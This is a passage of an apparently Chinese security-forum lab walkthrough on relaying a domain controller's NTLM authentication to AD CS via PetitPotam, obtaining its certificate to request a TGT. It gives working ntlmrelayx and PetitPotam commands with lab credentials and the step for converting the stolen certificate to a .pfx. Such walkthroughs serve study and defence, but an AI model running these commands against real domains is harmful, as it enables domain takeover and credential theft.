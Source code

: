0x04 获取AD CS证书
==============

攻击原理
----

在域内配置了AD CS的情况下，可以通过NTLM Relay攻击获取到的证书进行申请 TGT 操作。

> 关于证书攻击的部分可以查看之前的一些文章

前置条件：

1. AD CS被配置为允许NTLM认证
2. NTLM认证没有受到EPA或SMB签名的保护
3. AD CS正在运行这些服务中的任何一个： 
    - 证书颁发机构web注册
    - 证书注册web服务

攻击流程
----

1. 使用 PetitPotam 针对域控强制验证
2. 监听获取域控的认证信息，伪造域控身份
3. 中继域控认证至AD CS上
4. AD CS 返回域控对应的证书
5. 使用该证书向域控申请 TGT  
    ![x3TrMd.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-f6a4a1063df6e37ebc8499c4b9ff816bb771bdbd.png)

### 攻击目标支持 PKINIT 协议

在下面的实验中，攻击目标为域控 DC01$。如果域控支持 PKINIT 协议，在获取到域控的证书后，可以基于 PKINIT 协议申请 TGT。

1. 设置监听器  
    使用ntlmrelay工具进行监听
    
    ```shell
    python3 ntlmrelayx.py -debug -smb2support --target http://20.20.20.6/certsrv/certfnsh.asp --adcs --template DomainController
    ```
2. 强制认证  
    简单演示，使用 PetitPotam 工具进行强制认证
    
    ```shell
    python3 PetitPotam.py -u spiderman -p 123.com -d hack.lab 20.20.20.100 20.20.20.5
    ```
3. 证书处理  
    执行上述两条命令后，可以看到获取到一串 Base64 证书信息，将其保存至 DC01\_base64.txt 文件中  
    ![x3TgdP.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-427a3338d5c4ed09c0195e8f3853d5b5935f8be0.png)

将其解密为 .pfx 文件

```shell
cat DC01_base64.txt | base64 -d > dc01.pfx
```

![x3TssA.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-0739dac72c9c6aca662c7df8e5d71520eda1d5b4.png)
